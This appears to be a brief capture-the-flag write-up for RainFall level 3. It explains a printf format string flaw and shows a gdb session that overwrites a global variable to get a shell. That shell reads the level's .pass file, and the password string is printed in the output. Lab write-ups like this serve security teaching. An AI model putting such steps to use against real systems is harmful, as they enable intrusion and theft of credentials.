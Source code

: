 Format String Vulnerability: 
Using printf(buffer) directly means a user can inject format specifiers (%x, %s, etc.).

Potential Exploit Path: If attacker controls buffer and global at 0x804988c, it may allow arbitrary code execution via the system() call.

level3@RainFall:~$ gdb ./level3 
(gdb) b v
Breakpoint 1 at 0x80484ad
(gdb) r
Starting program: /home/user/level3/level3 

Breakpoint 1, 0x080484ad in v ()
(gdb) set *(int*)0x804988c = 0x40
(gdb) continue
Continuing.
lo
lo
Wait what?!
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

Then it calls printf() directly with the user input as the format string — this introduces a format string vulnerability.